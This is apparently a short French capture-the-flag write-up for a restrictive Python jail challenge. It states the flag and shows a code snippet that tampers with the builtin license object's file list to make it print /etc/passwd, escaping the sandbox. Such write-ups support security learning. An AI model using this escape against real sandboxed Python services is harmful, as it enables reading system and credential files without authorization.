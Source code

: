 # difficulté: Medium
# flag: LABO{Mathi4s_w0uld_b_Pr0ud}


## tldr;
pyjail assez classique mais très restrictive qui nous oblige a abuse des builtins python (literallement)
```
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.pop()
license._Printer__filenames.append('/etc/passwd')
license._Printer__lines=False
license()
```
